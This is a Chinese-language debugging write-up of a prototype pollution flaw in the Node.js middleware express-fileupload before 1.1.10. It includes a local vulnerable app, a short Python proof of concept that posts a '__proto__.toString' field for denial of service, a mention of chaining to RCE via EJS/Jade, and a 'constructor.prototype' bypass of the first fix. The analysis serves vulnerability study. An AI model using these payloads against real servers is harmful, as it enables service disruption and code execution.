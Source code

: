 ## 前言

express-fileupload 是Express的一个用于处理文件上传的中间件

在synk的漏洞库上可以发现它目前有两个漏洞: https://snyk.io/vuln/npm:express-fileupload

参考下面这篇文章先调试下原型链污染的这个漏洞

https://blog.p6.is/Real-World-JS-1/

## 环境搭建

影响版本是express-fileupload<1.1.10 

```
npm init
npm install express --save
npm install express-fileupload@1.1.6 --save
```

index.js

```js
const express = require('express');
const fileUpload = require('express-fileupload');
const app = express();

app.use(fileUpload({ parseNested: true }));

app.get('/', (req, res) => {
    res.end('express-fileupload poc');
});

app.listen(7777)
```

```
node index.js
```

调试环境vscode.

## 调试分析

污染poc: (dos)

```python
import requests

url='http://127.0.0.1:7777/'
res = requests.post(url=url, files = {'__proto__.toString': 'express-fileupload poc'});

requests.get(url)
```

在express处理一个请求前,会先把请求传到中间件进行处理, 需要把断点下在中间件express-fileupload里面.

因为对express中间件处理请求情况不太了解,所以我直接下在了processNested.js

![image-20210503111021367](README/image-20210503111021367.png)

然后再看调用堆栈.

![image-20210503111247395](README/image-20210503111247395.png)

发现中间件有很多监听事件, 在下面代码里面`options.parseNested` 设置为true时就会调用`processNested`函数

```js
module.exports = function(data){
  if (!data || data.length < 1) return {};
  
  let d = {},
    keys = Object.keys(data);

  for (let i = 0; i < keys.length; i++) {
    let key = keys[i],
      value = data[key],
      current = d,
      keyParts = key
        .replace(new RegExp(/\[/g), '.')
        .replace(new RegExp(/\]/g), '')
        .split('.');
  
    for (let index = 0; index < keyParts.length; index++){
      let k = keyParts[index];
      if (index >= keyParts.length - 1){
        current[k] = value;
      } else {
        if (!current[k]) current[k] = !isNaN(keyParts[index + 1]) ? [] : {};
        current = current[k];
      }
    }
  }
  
  return d;
};
```

会把`__proto__` 当作object解析, `.`后面的当作key . value值可控

![image-20210503112556359](README/image-20210503112556359.png)

很明显的污染,利用req.body配合Ejs/Jade等即可RCE .

## github issue

看一下修复情况 , issue https://github.com/richardgirges/express-fileupload/issues/236

![image-20210503113640010](README/image-20210503113640010.png)

一开始只过滤了`__proto__` , 显然是修复不完全的 , `constructor.prototype.toString` 即可绕过

这个修复绕过似乎在antCTF某组件也见到了, 应该也算是开发者一个很容易忽略的问题

![image-20210503113736704](README/image-20210503113736704.png)

![image-20210503113947713](README/image-20210503113947713.png)

现在的修复方案

![image-20210503114103948](README/image-20210503114103948.png)

